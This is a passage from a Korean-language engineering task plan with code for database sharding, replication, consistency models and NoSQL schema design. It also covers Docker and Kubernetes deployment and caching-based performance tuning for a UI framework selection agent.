        WHERE tablename LIKE '%_shard_%'
    LOOP
        -- Calculate records to move
        EXECUTE format('
            SELECT COUNT(*) * %s
            FROM %I
            WHERE get_shard_for_key(shard_key, %s) = %s',
            move_percentage,
            table_record.tablename,
            {num_shards},
            source_shard
        ) INTO move_count;

        -- Move records
        EXECUTE format('
            WITH moved_records AS (
                DELETE FROM %I
                WHERE ctid IN (
                    SELECT ctid
                    FROM %I
                    WHERE get_shard_for_key(shard_key, %s) = %s
                    LIMIT %s
                )
                RETURNING *
            )
            INSERT INTO %I
            SELECT * FROM moved_records',
            table_record.tablename || '_shard_' || source_shard,
            table_record.tablename || '_shard_' || source_shard,
            {num_shards},
            source_shard,
            move_count,
            table_record.tablename || '_shard_' || target_shard
        );
    END LOOP;

    -- Update shard metadata
    UPDATE shard_metadata
    SET record_count = (
        SELECT COUNT(*)
        FROM get_shard_statistics()
        WHERE shard_id = shard_metadata.shard_id
    );
END;
$$;
""".format(num_shards=sharding_config['num_shards'])

        return scripts

    async def _generate_mongodb_sharding(
        self,
        schema: DatabaseSchema,
        sharding_config: Dict[str, Any]
    ) -> Dict[str, str]:
        """MongoDB 샤딩 구현"""

        scripts = {}

        # 1. 샤드 클러스터 초기화
        scripts['init_sharding'] = """
// MongoDB Sharding Setup Script

// Enable sharding on database
sh.enableSharding("app_db")

// Configure shard key for collections
"""

        for collection in schema.tables:
            if collection.shardable:
                shard_key = sharding_config['shard_keys'].get(
                    collection.name,
                    sharding_config['shard_keys'][0]
                )

                scripts['init_sharding'] += f"""
// Shard collection: {collection.name}
sh.shardCollection(
    "app_db.{collection.name}",
    {{ {shard_key}: "{sharding_config['method']}" }},
    false,  // unique
    {{
        numInitialChunks: {sharding_config['num_shards'] * 2},
        collation: {{ locale: "en_US", strength: 2 }}
    }}
)

// Pre-split chunks for even distribution
var splitPoints = [];
for (var i = 1; i < {sharding_config['num_shards']}; i++) {{
    splitPoints.push({{ {shard_key}: i * Math.floor(MaxKey / {sharding_config['num_shards']}) }});
}}

splitPoints.forEach(function(splitPoint) {{
    db.adminCommand({{
        split: "app_db.{collection.name}",
        middle: splitPoint
    }});
}});
"""

        # 2. 샤드 태그 설정 (지리적 샤딩)
        if sharding_config['method'] == ShardingStrategy.GEOGRAPHY:
            scripts['zone_sharding'] = """
// Geographic Zone Sharding

// Add shard tags
sh.addShardTag("shard0", "US-EAST")
sh.addShardTag("shard1", "US-WEST")
sh.addShardTag("shard2", "EU")
sh.addShardTag("shard3", "ASIA")

// Define zone ranges
"""

            for collection in schema.tables:
                if collection.has_field('region'):
                    scripts['zone_sharding'] += f"""
// Zone ranges for {collection.name}
sh.addTagRange(
    "app_db.{collection.name}",
    {{ region: "us-east-1" }},
    {{ region: "us-east-9" }},
    "US-EAST"
)

sh.addTagRange(
    "app_db.{collection.name}",
    {{ region: "us-west-1" }},
    {{ region: "us-west-9" }},
    "US-WEST"
)

sh.addTagRange(
    "app_db.{collection.name}",
    {{ region: "eu-central-1" }},
    {{ region: "eu-west-9" }},
    "EU"
)

sh.addTagRange(
    "app_db.{collection.name}",
    {{ region: "ap-southeast-1" }},
    {{ region: "ap-northeast-9" }},
    "ASIA"
)
"""

        # 3. 샤드 모니터링 및 재분배
        scripts['shard_monitoring'] = """
// Shard Monitoring Functions

// Check chunk distribution
function checkChunkDistribution() {
    var collections = db.getCollectionNames();

    collections.forEach(function(coll) {
        if (sh.status().databases[0].collections[db.getName() + "." + coll]) {
            print("\\nCollection: " + coll);
            print("=" .repeat(50));

            var chunkCounts = {};
            db.getSiblingDB("config").chunks.find({
                ns: db.getName() + "." + coll
            }).forEach(function(chunk) {
                if (!chunkCounts[chunk.shard]) {
                    chunkCounts[chunk.shard] = 0;
                }
                chunkCounts[chunk.shard]++;
            });

            for (var shard in chunkCounts) {
                print(shard + ": " + chunkCounts[shard] + " chunks");
            }
        }
    });
}

// Auto-balance chunks
function autoBalanceChunks(collectionName, targetChunksPerShard) {
    var ns = db.getName() + "." + collectionName;
    var shards = [];

    db.getSiblingDB("config").shards.find().forEach(function(shard) {
        shards.push(shard._id);
    });

    var totalChunks = db.getSiblingDB("config").chunks.count({ ns: ns });
    var idealChunksPerShard = Math.ceil(totalChunks / shards.length);

    if (targetChunksPerShard) {
        idealChunksPerShard = targetChunksPerShard;
    }

    // Enable balancer for collection
    sh.enableBalancing(ns);

    // Set chunk size
    db.getSiblingDB("config").settings.update(
        { _id: "chunksize" },
        { $set: { value: 64 } },  // 64MB chunks
        { upsert: true }
    );

    print("Balancing " + ns + " with target " + idealChunksPerShard + " chunks per shard");
}

// Monitor shard performance
function getShardStats() {
    var stats = {};

    db.getSiblingDB("config").shards.find().forEach(function(shard) {
        var shardConn = new Mongo(shard.host);
        var shardDB = shardConn.getDB("admin");

        stats[shard._id] = {
            host: shard.host,
            dbStats: shardDB.runCommand({ dbStats: 1 }),
            serverStatus: shardDB.runCommand({ serverStatus: 1, repl: 0, metrics: 0 })
        };
    });

    return stats;
}
"""

        return scripts

class ReplicationPlanner:
    """복제 토폴로지 설계"""

    async def design_replication_topology(
        self,
        requirements: ProjectRequirements,
        scale: ScaleExpectations,
        geographic: Optional[GeographicRequirements]
    ) -> ReplicationTopology:
        """복제 토폴로지 설계"""

        # 복제 전략 결정
        if geographic and geographic.regions:
            # 다중 지역 복제
            topology_type = "multi_region_primary"
        elif scale.read_write_ratio > 10:
            # 읽기 중심 워크로드
            topology_type = "primary_with_read_replicas"
        elif requirements.requires_zero_downtime:
            # 고가용성 요구
            topology_type = "multi_primary"
        else:
            # 기본 복제
            topology_type = "primary_secondary"

        # 토폴로지 구성
        if topology_type == "multi_region_primary":
            return await self._design_multi_region_topology(geographic)
        elif topology_type == "primary_with_read_replicas":
            return await self._design_read_replica_topology(scale)
        elif topology_type == "multi_primary":
            return await self._design_multi_primary_topology(requirements)
        else:
            return await self._design_basic_topology()

    async def _design_multi_region_topology(
        self,
        geographic: GeographicRequirements
    ) -> ReplicationTopology:
        """다중 지역 복제 토폴로지"""

        topology = ReplicationTopology(
            type="multi_region",
            nodes=[]
        )

        # 각 지역별 Primary 노드
        for region in geographic.regions:
            # Regional Primary
            primary = ReplicationNode(
                node_id=f"{region.code}_primary",
                role="regional_primary",
                region=region.code,
                datacenter=region.primary_datacenter,
                priority=100,
                config={
                    'synchronous_commit': 'remote_write',
                    'synchronous_standby_names': f'{region.code}_secondary_*'
                }
            )
            topology.nodes.append(primary)

            # Regional Secondaries
            for i in range(region.min_replicas):
                secondary = ReplicationNode(
                    node_id=f"{region.code}_secondary_{i}",
                    role="secondary",
                    region=region.code,
                    datacenter=region.secondary_datacenters[i % len(region.secondary_datacenters)],
                    priority=50 - i,
                    config={
                        'hot_standby': 'on',
                        'max_standby_streaming_delay': '30s'
                    }
                )
                topology.nodes.append(secondary)

        # Cross-region replication links
        topology.replication_links = []
        for i, region1 in enumerate(geographic.regions):
            for region2 in geographic.regions[i+1:]:
                link = ReplicationLink(
                    source=f"{region1.code}_primary",
                    target=f"{region2.code}_primary",
                    type="async",
                    conflict_resolution="last_write_wins"
                )
                topology.replication_links.append(link)

        # 설정 스크립트
        topology.setup_scripts = await self._generate_multi_region_scripts(
            topology,
            geographic
        )

        return topology

class ConsistencyManager:
    """일관성 모델 관리"""

    async def select_consistency_model(
        self,
        requirements: ProjectRequirements,
        sharding: ShardingStrategy,
        replication: ReplicationTopology
    ) -> ConsistencyModel:
        """일관성 모델 선택"""

        # 요구사항 분석
        if requirements.requires_strong_consistency:
            model_type = "strong"
        elif requirements.consistency_requirement == "eventual":
            model_type = "eventual"
        elif self._is_geo_distributed(replication):
            model_type = "causal"
        else:
            model_type = "session"

        # 일관성 구현
        if model_type == "strong":
            return await self._implement_strong_consistency(sharding, replication)
        elif model_type == "eventual":
            return await self._implement_eventual_consistency(sharding, replication)
        elif model_type == "causal":
            return await self._implement_causal_consistency(sharding, replication)
        else:
            return await self._implement_session_consistency(sharding, replication)

    async def _implement_strong_consistency(
        self,
        sharding: ShardingStrategy,
        replication: ReplicationTopology
    ) -> ConsistencyModel:
        """강한 일관성 구현"""

        return ConsistencyModel(
            type="strong",
            implementation={
                'transaction_isolation': 'SERIALIZABLE',
                'distributed_transactions': True,
                'two_phase_commit': True,
                'synchronous_replication': True,
                'read_preference': 'primary',
                'write_concern': {
                    'w': 'majority',
                    'j': True,
                    'wtimeout': 5000
                }
            },
            scripts={
                'postgresql': """
-- Strong consistency configuration
ALTER SYSTEM SET default_transaction_isolation = 'serializable';
ALTER SYSTEM SET synchronous_commit = 'remote_apply';
ALTER SYSTEM SET synchronous_standby_names = 'FIRST 2 (standby1, standby2)';

-- Two-phase commit for distributed transactions
CREATE EXTENSION IF NOT EXISTS postgres_fdw;

-- Distributed transaction manager
CREATE OR REPLACE FUNCTION distributed_transaction(
    operations JSONB[]
) RETURNS BOOLEAN AS $$
DECLARE
    op JSONB;
    prepared_tx TEXT[];
    tx_id TEXT;
BEGIN
    -- Phase 1: Prepare
    FOREACH op IN ARRAY operations
    LOOP
        tx_id := 'tx_' || gen_random_uuid();

        -- Prepare transaction on shard
        PERFORM dblink_exec(
            op->>'shard',
            'PREPARE TRANSACTION ''' || tx_id || ''''
        );

        prepared_tx := array_append(prepared_tx, tx_id);
    END LOOP;

    -- Phase 2: Commit
    FOREACH tx_id IN ARRAY prepared_tx
    LOOP
        PERFORM dblink_exec(
            op->>'shard',
            'COMMIT PREPARED ''' || tx_id || ''''
        );
    END LOOP;

    RETURN TRUE;
EXCEPTION
    WHEN OTHERS THEN
        -- Rollback all prepared transactions
        FOREACH tx_id IN ARRAY prepared_tx
        LOOP
            PERFORM dblink_exec(
                op->>'shard',
                'ROLLBACK PREPARED ''' || tx_id || ''''
            );
        END LOOP;
        RAISE;
END;
$$ LANGUAGE plpgsql;
""",
                'mongodb': """
// Strong consistency in MongoDB
// Use transactions with majority write concern

// Session with causal consistency
const session = db.getMongo().startSession({
    readPreference: { mode: "primary" },
    readConcern: { level: "majority" },
    writeConcern: { w: "majority", j: true }
});

// Distributed transaction example
function distributedTransaction(operations) {
    const session = db.getMongo().startSession();

    session.startTransaction({
        readConcern: { level: "snapshot" },
        writeConcern: { w: "majority" },
        readPreference: { mode: "primary" }
    });

    try {
        operations.forEach(op => {
            const db = session.getDatabase(op.db);
            const collection = db.getCollection(op.collection);

            switch(op.type) {
                case 'insert':
                    collection.insertOne(op.document, { session });
                    break;
                case 'update':
                    collection.updateOne(op.filter, op.update, { session });
                    break;
                case 'delete':
                    collection.deleteOne(op.filter, { session });
                    break;
            }
        });

        session.commitTransaction();
        return true;
    } catch (error) {
        session.abortTransaction();
        throw error;
    } finally {
        session.endSession();
    }
}
"""
            }
        )
```

**검증 기준**:

- [ ] 분산 샤딩 구현
- [ ] 복제 토폴로지 설계
- [ ] 일관성 모델 구현
- [ ] 장애 조치 자동화

#### SubTask 4.18.4: NoSQL 데이터베이스 지원

**담당자**: NoSQL 전문가  
**예상 소요시간**: 8시간

**작업 내용**:

```python
# backend/src/agents/implementations/nosql_database.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass

@dataclass
class NoSQLDatabaseDesign:
    database_type: str  # 'mongodb', 'dynamodb', 'cassandra', 'redis'
    data_model: NoSQLDataModel
    access_patterns: List[AccessPattern]
    indexes: List[NoSQLIndex]
    consistency_settings: ConsistencySettings
    performance_optimizations: List[Optimization]

class NoSQLDatabaseDesigner:
    """NoSQL 데이터베이스 설계"""

    def __init__(self):
        self.document_designer = DocumentDatabaseDesigner()
        self.keyvalue_designer = KeyValueDatabaseDesigner()
        self.columnar_designer = ColumnarDatabaseDesigner()
        self.graph_designer = GraphDatabaseDesigner()

    async def design_nosql_database(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern],
        db_type: str
    ) -> NoSQLDatabaseDesign:
        """NoSQL 데이터베이스 설계"""

        if db_type == 'mongodb':
            return await self.document_designer.design(
                requirements,
                domain_models,
                access_patterns
            )
        elif db_type == 'dynamodb':
            return await self.keyvalue_designer.design_dynamodb(
                requirements,
                domain_models,
                access_patterns
            )
        elif db_type == 'cassandra':
            return await self.columnar_designer.design_cassandra(
                requirements,
                domain_models,
                access_patterns
            )
        elif db_type == 'redis':
            return await self.keyvalue_designer.design_redis(
                requirements,
                domain_models,
                access_patterns
            )
        elif db_type == 'neo4j':
            return await self.graph_designer.design(
                requirements,
                domain_models,
                access_patterns
            )
        else:
            raise ValueError(f"Unsupported NoSQL database: {db_type}")

class DocumentDatabaseDesigner:
    """문서 데이터베이스 설계 (MongoDB)"""

    async def design(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern]
    ) -> NoSQLDatabaseDesign:
        """MongoDB 데이터베이스 설계"""

        # 1. 문서 스키마 설계
        collections = await self._design_collections(
            domain_models,
            access_patterns
        )

        # 2. 인덱스 설계
        indexes = await self._design_indexes(
            collections,
            access_patterns
        )

        # 3. 검증 규칙
        validation_rules = await self._create_validation_rules(
            collections
        )

        # 4. 집계 파이프라인
        aggregation_pipelines = await self._design_aggregations(
            access_patterns
        )

        # 5. 성능 최적화
        optimizations = await self._optimize_for_patterns(
            collections,
            access_patterns
        )

        # MongoDB 스키마 생성 스크립트
        setup_script = await self._generate_mongodb_setup(
            collections,
            indexes,
            validation_rules
        )

        return NoSQLDatabaseDesign(
            database_type='mongodb',
            data_model=MongoDBDataModel(
                collections=collections,
                validation_rules=validation_rules,
                aggregation_pipelines=aggregation_pipelines
            ),
            access_patterns=access_patterns,
            indexes=indexes,
            consistency_settings=ConsistencySettings(
                read_concern='majority',
                write_concern={'w': 'majority', 'j': True}
            ),
            performance_optimizations=optimizations,
            setup_script=setup_script
        )

    async def _design_collections(
        self,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern]
    ) -> List[MongoDBCollection]:
        """컬렉션 설계"""

        collections = []

        for model in domain_models:
            # 임베딩 vs 참조 결정
            embedding_decisions = await self._decide_embedding(
                model,
                domain_models,
                access_patterns
            )

            # 문서 구조 설계
            document_structure = {
                '_id': 'ObjectId',
                **self._convert_to_document_schema(model)
            }

            # 임베디드 문서 추가
            for embed in embedding_decisions['embed']:
                related_model = next(m for m in domain_models if m.name == embed)
                document_structure[embed.lower()] = {
                    'type': 'embedded',
                    'schema': self._convert_to_document_schema(related_model)
                }

            # 참조 필드 추가
            for ref in embedding_decisions['reference']:
                document_structure[f'{ref.lower()}_id'] = 'ObjectId'

            collection = MongoDBCollection(
                name=model.name.lower() + 's',
                schema=document_structure,
                sharding_key=self._determine_sharding_key(model, access_patterns),
                indexes=[],
                validation_rules={}
            )

            collections.append(collection)

        return collections

    async def _design_indexes(
        self,
        collections: List[MongoDBCollection],
        access_patterns: List[AccessPattern]
    ) -> List[NoSQLIndex]:
        """인덱스 설계"""

        indexes = []

        for pattern in access_patterns:
            if pattern.type == 'query':
                # 단일 필드 인덱스
                if len(pattern.filter_fields) == 1:
                    index = NoSQLIndex(
                        name=f"idx_{pattern.collection}_{pattern.filter_fields[0]}",
                        collection=pattern.collection,
                        fields={pattern.filter_fields[0]: 1},
                        type='single',
                        options={'background': True}
                    )
                    indexes.append(index)

                # 복합 인덱스
                elif len(pattern.filter_fields) > 1:
                    # ESR (Equality, Sort, Range) 규칙 적용
                    ordered_fields = self._order_fields_by_esr(
                        pattern.filter_fields,
                        pattern.sort_fields,
                        pattern.range_fields
                    )

                    index = NoSQLIndex(
                        name=f"idx_{pattern.collection}_{'_'.join(ordered_fields)}",
                        collection=pattern.collection,
                        fields={field: 1 for field in ordered_fields},
                        type='compound',
                        options={'background': True}
                    )
                    indexes.append(index)

            elif pattern.type == 'text_search':
                # 텍스트 인덱스
                index = NoSQLIndex(
                    name=f"idx_{pattern.collection}_text",
                    collection=pattern.collection,
                    fields={field: 'text' for field in pattern.text_fields},
                    type='text',
                    options={
                        'weights': {field: weight for field, weight in pattern.field_weights.items()},
                        'default_language': 'english'
                    }
                )
                indexes.append(index)

            elif pattern.type == 'geospatial':
                # 지리공간 인덱스
                index = NoSQLIndex(
                    name=f"idx_{pattern.collection}_geo",
                    collection=pattern.collection,
                    fields={pattern.geo_field: '2dsphere'},
                    type='geospatial',
                    options={}
                )
                indexes.append(index)

        return indexes

    async def _generate_mongodb_setup(
        self,
        collections: List[MongoDBCollection],
        indexes: List[NoSQLIndex],
        validation_rules: Dict[str, Any]
    ) -> str:
        """MongoDB 설정 스크립트 생성"""

        script = """// MongoDB Database Setup Script
// Generated by Database Agent

// Switch to application database
use app_db;

// Create collections with validation
"""

        for collection in collections:
            script += f"""
// Collection: {collection.name}
db.createCollection("{collection.name}", {{
    validator: {{
        $jsonSchema: {json.dumps(collection.validation_schema, indent=8)}
    }},
    validationLevel: "moderate",
    validationAction: "error"
}});

// Indexes for {collection.name}
"""

            for index in [idx for idx in indexes if idx.collection == collection.name]:
                if index.type == 'text':
                    script += f"db.{collection.name}.createIndex({json.dumps(index.fields)}, "
                    script += f"{{ name: '{index.name}', weights: {json.dumps(index.options.get('weights', {}))} }});\n"
                else:
                    script += f"db.{collection.name}.createIndex({json.dumps(index.fields)}, "
                    script += f"{{ name: '{index.name}', background: true }});\n"

            script += "\n"

        # 샤딩 설정
        script += """
// Sharding configuration
sh.enableSharding("app_db");
"""

        for collection in collections:
            if collection.sharding_key:
                script += f"""
sh.shardCollection(
    "app_db.{collection.name}",
    {{ {collection.sharding_key}: "hashed" }},
    false
);
"""

        # 최적화된 집계 파이프라인
        script += """
// Optimized aggregation pipelines
"""

        return script

class KeyValueDatabaseDesigner:
    """키-값 데이터베이스 설계"""

    async def design_dynamodb(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern]
    ) -> NoSQLDatabaseDesign:
        """DynamoDB 설계"""

        # 1. 테이블 설계 (Single Table Design 고려)
        tables = await self._design_dynamodb_tables(
            domain_models,
            access_patterns
        )

        # 2. GSI/LSI 설계
        indexes = await self._design_dynamodb_indexes(
            tables,
            access_patterns
        )

        # 3. 파티션 키 설계
        partition_strategy = await self._design_partition_strategy(
            tables,
            access_patterns
        )

        # CloudFormation 템플릿 생성
        cf_template = await self._generate_cloudformation_template(
            tables,
            indexes
        )

        return NoSQLDatabaseDesign(
            database_type='dynamodb',
            data_model=DynamoDBDataModel(
                tables=tables,
                access_patterns=access_patterns,
                partition_strategy=partition_strategy
            ),
            access_patterns=access_patterns,
            indexes=indexes,
            consistency_settings=ConsistencySettings(
                read_consistency='eventual',  # or 'strong'
                write_consistency='eventual'
            ),
            performance_optimizations=[
                Optimization(
                    type='partition_key_design',
                    description='Optimized partition key for even distribution',
                    implementation=partition_strategy
                )
            ],
            setup_script=cf_template
        )

    async def _design_dynamodb_tables(
        self,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern]
    ) -> List[DynamoDBTable]:
        """DynamoDB 테이블 설계"""

        # Single Table Design 평가
        if self._should_use_single_table(domain_models, access_patterns):
            return await self._design_single_table(domain_models, access_patterns)
        else:
            return await self._design_multi_table(domain_models, access_patterns)

    async def _design_single_table(
        self,
        domain_models: List[DomainModel],
        access_patterns: List[AccessPattern]
    ) -> List[DynamoDBTable]:
        """Single Table Design"""

        table = DynamoDBTable(
            name='MainTable',
            partition_key='PK',
            sort_key='SK',
            attributes={}
        )

        # 각 엔티티별 키 설계
        for model in domain_models:
            # PK: ENTITY#<id>
            # SK: METADATA or related data

            table.item_schemas.append({
                'entity_type': model.name,
                'pk_pattern': f'{model.name.upper()}#{{id}}',
                'sk_patterns': [
                    'METADATA',  # 주 레코드
                    f'REL#{related_entity}#{{related_id}}'  # 관계
                ],
                'attributes': self._map_attributes(model)
            })

        return [table]

    async def _generate_cloudformation_template(
        self,
        tables: List[DynamoDBTable],
        indexes: List[NoSQLIndex]
    ) -> str:
        """CloudFormation 템플릿 생성"""

        template = {
            'AWSTemplateFormatVersion': '2010-09-09',
            'Description': 'DynamoDB tables for application',
            'Resources': {}
        }

        for table in tables:
            resource_name = f'{table.name}Table'

            table_def = {
                'Type': 'AWS::DynamoDB::Table',
                'Properties': {
                    'TableName': table.name,
                    'BillingMode': 'PAY_PER_REQUEST',  # or 'PROVISIONED'
                    'AttributeDefinitions': [
                        {
                            'AttributeName': table.partition_key,
                            'AttributeType': 'S'
                        }
                    ],
                    'KeySchema': [
                        {
                            'AttributeName': table.partition_key,
                            'KeyType': 'HASH'
                        }
                    ],
                    'StreamSpecification': {
                        'StreamViewType': 'NEW_AND_OLD_IMAGES'
                    },
                    'PointInTimeRecoverySpecification': {
                        'PointInTimeRecoveryEnabled': True
                    },
                    'Tags': [
                        {
                            'Key': 'Environment',
                            'Value': {'Ref': 'Environment'}
                        }
                    ]
                }
            }

            # Sort key 추가
            if table.sort_key:
                table_def['Properties']['AttributeDefinitions'].append({
                    'AttributeName': table.sort_key,
                    'AttributeType': 'S'
                })
                table_def['Properties']['KeySchema'].append({
                    'AttributeName': table.sort_key,
                    'KeyType': 'RANGE'
                })

            # GSI 추가
            gsis = []
            for index in [idx for idx in indexes if idx.table == table.name and idx.type == 'global']:
                gsi = {
                    'IndexName': index.name,
                    'KeySchema': [
                        {
                            'AttributeName': index.partition_key,
                            'KeyType': 'HASH'
                        }
                    ],
                    'Projection': {
                        'ProjectionType': index.projection_type  # ALL, KEYS_ONLY, INCLUDE
                    }
                }

                if index.sort_key:
                    gsi['KeySchema'].append({
                        'AttributeName': index.sort_key,
                        'KeyType': 'RANGE'
                    })

                if index.projection_type == 'INCLUDE':
                    gsi['Projection']['NonKeyAttributes'] = index.included_attributes

                gsis.append(gsi)

            if gsis:
                table_def['Properties']['GlobalSecondaryIndexes'] = gsis

            template['Resources'][resource_name] = table_def

        return json.dumps(template, indent=2)
```

**검증 기준**:

- [ ] 다양한 NoSQL 데이터베이스 지원
- [ ] 액세스 패턴 기반 설계
- [ ] 성능 최적화 전략
- [ ] 자동 스키마 생성

**Phase 4 완료 체크리스트**:

- [ ] Database Agent 코어 구현 완료
- [ ] 인덱스 및 쿼리 최적화
- [ ] 마이그레이션 시스템 구축
- [ ] 보안 구현 완료
- [ ] 성능 모니터링 시스템
- [ ] 백업/복구 자동화
- [ ] 분산 데이터베이스 지원
- [ ] NoSQL 통합 지원

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 2 (UI Selection Agent 계속)

## Task 4.19: UI Selection Agent 배포 준비

### SubTask 4.19.1: UI Agent 컨테이너화

**담당자**: DevOps 엔지니어  
**예상 소요시간**: 8시간

**작업 내용**:

```dockerfile
# backend/src/agents/implementations/ui_selection/Dockerfile
FROM python:3.11-slim AS builder

# 빌드 의존성 설치
RUN apt-get update && apt-get install -y \
    build-essential \
    curl \
    && rm -rf /var/lib/apt/lists/*

# 작업 디렉토리 설정
WORKDIR /app

# 의존성 파일 복사 및 설치
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# Agno 프레임워크 설치
RUN pip install agno

# 소스 코드 복사
COPY . .

# 런타임 이미지
FROM python:3.11-slim

# 런타임 의존성 설치
RUN apt-get update && apt-get install -y \
    libpq5 \
    && rm -rf /var/lib/apt/lists/*

# 비권한 사용자 생성
RUN useradd -m -u 1000 agent && \
    mkdir -p /app/data /app/logs && \
    chown -R agent:agent /app

WORKDIR /app

# 빌더에서 설치된 패키지 복사
COPY --from=builder /usr/local/lib/python3.11/site-packages /usr/local/lib/python3.11/site-packages
COPY --from=builder /usr/local/bin /usr/local/bin

# 애플리케이션 복사
COPY --chown=agent:agent . .

# 사용자 전환
USER agent

# 헬스체크
HEALTHCHECK --interval=30s --timeout=3s --start-period=40s --retries=3 \
    CMD python -c "import requests; requests.get('http://localhost:8080/health')"

# 환경 변수
ENV PYTHONUNBUFFERED=1 \
    AGNO_MONITORING_ENABLED=true \
    AGENT_TYPE=ui_selection \
    LOG_LEVEL=INFO

# 포트 노출
EXPOSE 8080

# 엔트리포인트
ENTRYPOINT ["python", "-m", "ui_selection_agent"]
```

**Kubernetes 배포 매니페스트**:

```yaml
# k8s/ui-selection-agent/deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: ui-selection-agent
  namespace: t-developer
  labels:
    app: ui-selection-agent
    component: agent
    version: v1
spec:
  replicas: 3
  selector:
    matchLabels:
      app: ui-selection-agent
  template:
    metadata:
      labels:
        app: ui-selection-agent
      annotations:
        prometheus.io/scrape: 'true'
        prometheus.io/port: '8080'
        prometheus.io/path: '/metrics'
    spec:
      serviceAccountName: ui-selection-agent
      containers:
        - name: agent
          image: t-developer/ui-selection-agent:latest
          imagePullPolicy: Always
          ports:
            - containerPort: 8080
              name: http
              protocol: TCP
          env:
            - name: AWS_REGION
              value: 'us-east-1'
            - name: BEDROCK_ENDPOINT
              valueFrom:
                configMapKeyRef:
                  name: agent-config
                  key: bedrock.endpoint
            - name: REDIS_URL
              valueFrom:
                secretKeyRef:
                  name: agent-secrets
                  key: redis.url
            - name: POD_NAME
              valueFrom:
                fieldRef:
                  fieldPath: metadata.name
            - name: POD_NAMESPACE
              valueFrom:
                fieldRef:
                  fieldPath: metadata.namespace
          resources:
            requests:
              memory: '512Mi'
              cpu: '500m'
            limits:
              memory: '2Gi'
              cpu: '2000m'
          livenessProbe:
            httpGet:
              path: /health
              port: 8080
            initialDelaySeconds: 30
            periodSeconds: 10
          readinessProbe:
            httpGet:
              path: /ready
              port: 8080
            initialDelaySeconds: 5
            periodSeconds: 5
          volumeMounts:
            - name: framework-cache
              mountPath: /app/cache
            - name: agent-config
              mountPath: /app/config
      volumes:
        - name: framework-cache
          emptyDir:
            sizeLimit: 1Gi
        - name: agent-config
          configMap:
            name: ui-selection-config
```

**검증 기준**:

- [ ] Docker 이미지 빌드 성공
- [ ] 컨테이너 헬스체크 통과
- [ ] Kubernetes 배포 성공
- [ ] 자동 스케일링 테스트

### SubTask 4.19.2: UI Agent 성능 최적화

**담당자**: 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_selection/performance_optimizer.py
from typing import Dict, List, Optional, Any
import asyncio
from dataclasses import dataclass
import numpy as np
from cachetools import TTLCache
import aioredis

@dataclass
class PerformanceMetrics:
    latency_p50: float
    latency_p95: float
    latency_p99: float
    throughput: float
    error_rate: float
    cache_hit_rate: float
    memory_usage_mb: float
    cpu_usage_percent: float

class UIAgentPerformanceOptimizer:
    """UI Selection Agent 성능 최적화 모듈"""

    def __init__(self):
        # 예측 결과 캐싱 (TTL: 1시간)
        self.prediction_cache = TTLCache(maxsize=10000, ttl=3600)

        # 프레임워크 메타데이터 캐싱
        self.framework_cache = TTLCache(maxsize=100, ttl=86400)

        # 배치 처리 큐
        self.batch_queue = asyncio.Queue(maxsize=100)
        self.batch_processor_task = None

        # Redis 연결 (분산 캐싱)
        self.redis = None

        # 성능 모니터링
        self.metrics_collector = MetricsCollector()

    async def initialize(self):
        """성능 최적화 모듈 초기화"""
        # Redis 연결
        self.redis = await aioredis.create_redis_pool(
            'redis://localhost',
            minsize=5,
            maxsize=20
        )

        # 배치 프로세서 시작
        self.batch_processor_task = asyncio.create_task(
            self._batch_processor()
        )

        # 캐시 예열
        await self._warmup_cache()

    async def optimize_selection(
        self,
        requirements: Dict[str, Any],
        use_cache: bool = True
    ) -> UIFrameworkSelection:
        """최적화된 UI 프레임워크 선택"""

        # 1. 캐시 확인
        if use_cache:
            cache_key = self._generate_cache_key(requirements)
            cached_result = await self._get_from_cache(cache_key)
            if cached_result:
                self.metrics_collector.record_cache_hit()
                return cached_result

        # 2. 배치 처리 가능 여부 확인
        if self._is_batchable(requirements):
            return await self._process_in_batch(requirements)

        # 3. 병렬 처리 최적화
        result = await self._parallel_evaluation(requirements)

        # 4. 결과 캐싱
        if use_cache:
            await self._cache_result(cache_key, result)

        return result

    async def _parallel_evaluation(
        self,
        requirements: Dict[str, Any]
    ) -> UIFrameworkSelection:
        """병렬 프레임워크 평가"""

        # 평가할 프레임워크 목록
        frameworks = await self._get_relevant_frameworks(requirements)

        # 병렬 평가 태스크 생성
        evaluation_tasks = []
        for framework in frameworks:
            task = asyncio.create_task(
                self._evaluate_framework(framework, requirements)
            )
            evaluation_tasks.append(task)

        # 모든 평가 완료 대기
        evaluations = await asyncio.gather(*evaluation_tasks)

        # 최적 프레임워크 선택
        best_framework = max(evaluations, key=lambda x: x.score)

        return UIFrameworkSelection(
            framework=best_framework.framework,
            score=best_framework.score,
            reasoning=best_framework.reasoning,
            performance_metrics=await self._get_current_metrics()
        )

    async def _batch_processor(self):
        """배치 처리 워커"""
        batch = []

        while True:
            try:
                # 배치 수집 (최대 50ms 대기)
                timeout = 0.05
                deadline = asyncio.get_event_loop().time() + timeout

                while len(batch) < 10:  # 최대 배치 크기
                    remaining = deadline - asyncio.get_event_loop().time()
                    if remaining <= 0:
                        break

                    try:
                        item = await asyncio.wait_for(
                            self.batch_queue.get(),
                            timeout=remaining
                        )
                        batch.append(item)
                    except asyncio.TimeoutError:
                        break

                # 배치 처리
                if batch:
                    await self._process_batch(batch)
                    batch = []

            except Exception as e:
                print(f"Batch processor error: {e}")
                await asyncio.sleep(1)

    async def _get_current_metrics(self) -> PerformanceMetrics:
        """현재 성능 메트릭 수집"""
        return PerformanceMetrics(
            latency_p50=await self.metrics_collector.get_percentile(50),
            latency_p95=await self.metrics_collector.get_percentile(95),
            latency_p99=await self.metrics_collector.get_percentile(99),
            throughput=await self.metrics_collector.get_throughput(),
            error_rate=await self.metrics_collector.get_error_rate(),
            cache_hit_rate=await self.metrics_collector.get_cache_hit_rate(),
            memory_usage_mb=await self.metrics_collector.get_memory_usage(),
            cpu_usage_percent=await self.metrics_collector.get_cpu_usage()
        )
```

**최적화 전략 구현**:

```python
